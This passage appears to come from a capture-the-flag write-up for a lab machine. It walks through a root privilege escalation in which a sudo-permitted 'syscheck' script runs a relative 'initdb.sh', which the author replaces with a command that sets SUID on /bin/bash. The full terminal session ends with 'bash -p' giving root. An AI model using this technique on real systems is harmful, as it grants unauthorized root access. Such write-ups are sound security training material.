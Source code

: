 ```bash
exit 0
```

Analyzing the contents of the file, we can see that a script called **initdb.sh** is executed. 

So the steps to follow are:

* create the file **initdb.sh** by entering the command to set the SUID to */bin/bash*;
* make the newly created script executable;
* run *syscheck* as superuser;
* run `bash -p`.

```bash
dvir@headless:~/app$ echo "chmod u+s /bin/bash" > initdb.sh
echo "chmod u+s /bin/bash" > initdb.sh
dvir@headless:~/app$ chmod +x initdb.sh
chmod +x initdb.sh
dvir@headless:~/app$ sudo /usr/bin/syscheck
sudo /usr/bin/syscheck
Last Kernel Modification Time: 01/02/2024 10:05
Available disk space: 2.0G
System load average:  0.10, 0.03, 0.01
Database service is not running. Starting it...
dvir@headless:~/app$ bash -p
bash -p
whoami
root
```

In */root* there is the root flag.

